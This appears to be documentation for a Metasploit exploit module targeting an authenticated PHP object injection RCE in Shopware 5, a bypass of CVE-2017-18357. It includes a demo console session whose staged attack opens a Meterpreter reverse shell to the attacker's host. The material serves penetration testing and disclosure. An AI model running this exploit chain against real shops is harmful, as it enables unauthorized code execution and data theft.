 ## Background

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a PHP object instantiation vulnerability was discovered by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to the ability of leveraging an XXE primitive. Later on, I bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 w/ mod rewrite / PHP 7.2.15 w/ zip, gd, ctype, curl, dom, hash, iconv, json, session, mbstring, simplexml, xml, pdo_mysql and fileinfo

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

## References

- [https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

## Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

## Credit

Steven Seeley (mr_me) of Source Incite

## Demo

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=kitv5998u4qu2o1sq25v4kvv1j;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - generated our phar
[+] Stage 4 - leaked the CSRF token: eQ25IftJ3NGKx2WXBG4b00dTeoA8Pj
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6f/fc/7f/mlofhujx.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:33254) at 2019-05-09 14:44:46 -0500
[!] This exploit may require manual cleanup of 'qdvtvgqu.php' on the target
[!] This exploit may require manual cleanup of 'image/6f/fc/7f/mlofhujx.jpg' on the target

meterpreter > 
[+] Deleted qdvtvgqu.php
[+] Deleted image/6f/fc/7f/mlofhujx.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```
